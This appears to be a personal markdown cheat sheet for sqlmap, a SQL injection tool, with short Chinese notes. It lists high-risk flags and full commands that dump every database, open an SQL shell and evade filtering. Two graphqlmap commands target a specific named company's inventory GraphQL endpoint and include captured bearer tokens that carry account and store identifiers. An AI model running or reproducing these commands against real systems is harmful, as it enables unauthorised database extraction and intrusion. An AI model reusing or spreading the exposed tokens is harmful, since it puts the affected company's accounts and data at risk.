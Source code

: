 ```yaml
---
date: 2022-06-28
modified: 2022-07-14
---
```

## Metadata
up:: [[sqlmap]]

---
## Record Usage
**Freq Param**
```bash
--data="id=123"
--level 5 --risk 3
--sql-shell
--delay 0.2 --smart 
--force-ssl --fresh-queries
--random-agent # victim may store User-Agent, This setting may cause missing
--threads 10
-p <param>
--ignore-redirect

-T4 --dbs --tables --level 5 --risk 3 --sql-shell --smart --fresh-queries
```
[SQLMap - Cheetsheat - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)
**Used Param**
```bash
--no-cast
--randomize
--hex
```
[[sqlmap.Temper]]
**POST with JSON and STAR sign**
`-r REQUESTFILE      Load HTTP request from a file`
> 手動在要測試的參數的值，後綴加上 `*` 用以指定參數，使用帶 json 的，sqlmap 不支援 `-p` 指定參數，必須用星號
```bash
$ sqlmap -r rq.txt -T4 --current-db --dbs --tables --dump --level 5 --risk 3 --threads 10 --sql-shell --dbms=Mysql

# with Burp Listener
$ sqlmap -r try3woutstar.txt -T4 --random-agent --force-ssl --banner --current-db --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --fresh-queries --proxy="http://192.168.3.19:9527" -v 3 --randomize

graphqlmap -u graphqlmap -u https://www.caco.com.tw/ims030/ims/storeinventory/graphql/listbyd1r1storeitemno -v --method POST  -v --method POST --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXh0Ijoibm8gc2VjcmV0cyBoZXJlID1QIn0.JqqdOesC-R4LtOS9H0y7bIq-M8AGYjK92x4K3hcBA6o"}'

```

```
graphqlmap -u "https://www.caco.com.tw/ims030/ims/storeinventory/graphql/listbyd1r1storeitemno" -v --method POST --headers '{"Authorization" : "Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1cG4iOiLjhIzwqaWW6IOE6ZOo6aC38JGEvuaPmPCimLjwl6q-8K2OqfCQmqXjiKvwqpek2Y3wpKGn5p2nIiwic3ViIjoiU0VDVVJJVFlfTE9HSU5fVEVNUCIsImdyb3VwcyI6WyJ0ZW1wb3JhcnkiXSwiY21wdWlkIjoiQjEwRjAwMDAyMSIsInN0b3JldWlkIjoiQjEwRjAwMDBYRCIsInVpZCI6IuOEjPCppZbog4Tpk6jpoLfwkYS-5o-Y8KKYuPCXqr7wrY6p8JCapeOIq_Cql6TZjfCkoafmnaciLCJlbnRhY2N0dWlkIjoiY29tLmNhY28uZXJwIiwid2Vic2l0ZXVpZCI6IkpyVk52SG1TQjg2ZHlWZngiLCJ1c2VyaWQiOiJ0ZW1wb3JhcnkiLCJ1c2VybmFtZSI6InRlbXBvcmFyeSIsImlhdCI6MTY1Nzg0OTU0MCwiZXhwIjoxNjU3ODc4MzQwLCJqdGkiOiI3NmU4N2QxOS1hNjVmLTRiMTgtODQ1ZC1kZTkyZTlhZmM0NTciLCJpc3MiOiJodHRwczovL3d3dy5jYWNvLmNvbS9pc3N1ZXIiLCJhdWQiOiJhbGwifQ.Fj-MN1SI_qeKVIBEbHbSaPPa70G9TQTm9IJ5a7dFB2NoF5CutJN1j61FORrKxkn5bPON1pjrk8tcXl7sAjtsArOiCcBj-nalbEvBtQg_vpZQu1BW3W79JjE8wt_g_FHhS7MBctMdFvUl61SbWuLx-eY9sFBjLXHGDTU34OI2rE-GtKKHEdh8utAq9DPtWGR8CWiK_rrCBDLTVKZ0Mln_jobrBpaA41kiK0I6S55NCZf58-L5PaNSg9898J3AcAinp1D06rNRUWLAhpU4UyDH8OMWQPUHB-vu5wvWrk-n0F4bIBjwbVfzhBw4mfjcrG_esTQ5eTLwpxAsrVz9k4rMRA"}'
```

